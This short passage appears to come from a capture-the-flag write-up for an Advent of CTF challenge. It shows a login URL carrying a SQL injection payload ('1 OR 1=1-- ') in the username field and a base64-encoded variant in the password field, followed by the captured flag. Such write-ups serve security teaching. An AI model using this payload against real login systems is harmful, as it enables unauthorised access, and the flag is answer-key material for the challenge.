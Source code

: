 ```

https://03.adventofctf.com/index.php?username=1%20OR%201=1--%20&password=MSBPUiAxPTEtLSAtTk9WSQ==

NOVI{javascript_is_not_s@fe}
```
<img src="../images/3.png">

